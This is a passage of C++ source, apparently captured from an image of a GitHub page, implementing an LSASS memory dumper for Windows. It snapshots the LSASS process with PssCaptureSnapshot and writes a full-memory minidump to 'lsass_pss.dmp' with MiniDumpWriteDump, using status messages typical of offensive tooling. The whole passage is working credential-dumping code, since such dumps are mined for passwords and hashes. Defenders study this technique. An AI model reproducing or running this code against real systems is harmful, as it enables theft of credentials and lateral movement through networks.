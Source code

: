 ```cpp
    DWORD status = PssCaptureSnapshot(
        hLsass,
        PSS_CAPTURE_VA_CLONE | PSS_CAPTURE_HANDLES | PSS_CAPTURE_HANDLE_NAME_INFORMATION |
        PSS_CAPTURE_THREADS | PSS_CAPTURE_THREAD_CONTEXT,
        CONTEXT_ALL,
        &snapshotHandle
    );

    if (status != ERROR_SUCCESS) {
        std::cerr << "[-] PssCaptureSnapshot failed. Error: " << status << "\n";
        CloseHandle(hLsass);
        return 1;
    }

    // Step 5: Create output file to write the memory dump
    HANDLE hFile = CreateFileW(L"lsass_pss.dmp", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        std::cerr << "[-] Failed to create dump file.\n";
        PssFreeSnapshot(GetCurrentProcess(), snapshotHandle);
        CloseHandle(hLsass);
        return 1;
    }

    // Step 6: Write memory dump using MiniDumpWriteDump (dump original handle)
    BOOL dumped = MiniDumpWriteDump(
        hLsass, lsassPid,
        hFile,
        MiniDumpWithFullMemory,
        NULL, NULL, NULL
    );

    if (!dumped) {
        std::cerr << "[-] MiniDumpWriteDump failed. Error: " << GetLastError() << "\n";
    } else {
        std::cout << "[+] Memory dump written successfully to lsass_pss.dmp\n";
    }

    // Step 7: Cleanup
    CloseHandle(hFile);
    PssFreeSnapshot(GetCurrentProcess(), snapshotHandle);
    CloseHandle(hLsass);

    return 0;
}

```



